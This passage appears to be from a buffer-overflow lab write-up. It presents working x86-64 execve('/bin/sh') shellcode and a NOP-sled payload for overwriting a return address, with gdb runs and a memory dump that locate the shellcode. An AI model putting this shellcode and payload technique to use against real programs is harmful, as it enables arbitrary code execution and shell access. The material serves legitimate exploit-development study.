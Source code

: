 **shellcode**

After many attempts, all failing with an "Illegal instruction" error, I found a shellcode (40 bytes) that works here: https://www.arsouyes.org/blog/2019/54_Shellcode/

```python
>>> shellcode = '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05'
>>> len(shellcode)
40
```

**Return address**

The last item we need to complete our payload is the return address of the shell code (6 bytes). Our payload will be like this:

~~~
┌───────────────────┬────────────────────┬────────────────────┬────────────────────┐
│ NOP sled (90)     │  shell code (40)   │  random chars (22) │ Memory address (6) │
└───────────────────┴────────────────────┴────────────────────┴────────────────────┘
total length = 90 + 40 + 22 + 6 = 158
~~~

```python
>>> payload = '\x90'*90 + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x90'*22 + 'B'*6
>>> len(payload)
158
```

Let's try that:

~~~
(gdb) run $(python -c "print('\x90'*90 + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x90'*22 + 'B'*6)")
Starting program: /home/user1/overflow-3/buffer-overflow $(python -c "print('\x90'*90 + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x90'*22 + 'B'*6)")
Missing separate debuginfos, use: debuginfo-install glibc-2.26-32.amzn2.0.1.x86_64
Here's a program that echo's out your input
������������������������������������������������������������������������������������������j;XH1�I�//bin/shI�APH��RWH��j<XH1�����������������������BBBBBB

Program received signal SIGSEGV, Segmentation fault.
0x0000424242424242 in ?? ()
~~~

See where NOP sled string is located, and beginning of shellcode.

~~~
(gdb) x/100x $rsp-200
0x7fffffffe218:	0x00400450	0x00000000	0xffffe3d0	0x00007fff
0x7fffffffe228:	0x00400561	0x00000000	0xf7dce8c0	0x00007fff
0x7fffffffe238:	0xffffe639	0x00007fff	0x90909090	0x90909090 <--- NOP sled
0x7fffffffe248:	0x90909090	0x90909090	0x90909090	0x90909090
0x7fffffffe258:	0x90909090	0x90909090	0x90909090	0x90909090
0x7fffffffe268:	0x90909090	0x90909090	0x90909090	0x90909090
0x7fffffffe278:	0x90909090	0x90909090	0x90909090	0x90909090
0x7fffffffe288:	0x90909090	0x90909090	0x90909090	0x90909090
0x7fffffffe298:	0x3b6a9090	0xd2314858	0x2f2fb849	0x2f6e6962 <--- shellcode
0x7fffffffe2a8:	0xc1496873	0x504108e8	0x52e78948	0xe6894857
0x7fffffffe2b8:	0x3c6a050f	0xff314858	0x9090050f	0x90909090
0x7fffffffe2c8:	0x90909090	0x90909090	0x90909090	0x90909090
0x7fffffffe2d8:	0x42424242	0x00004242	0xffffe3d8	0x00007fff
0x7fffffffe2e8:	0x00000000	0x00000002	0x004005a0	0x00000000
0x7fffffffe2f8:	0xf7a4302a	0x00007fff	0x00000000	0x00000000
0x7fffffffe308:	0xffffe3d8	0x00007fff	0x00040000	0x00000002
~~~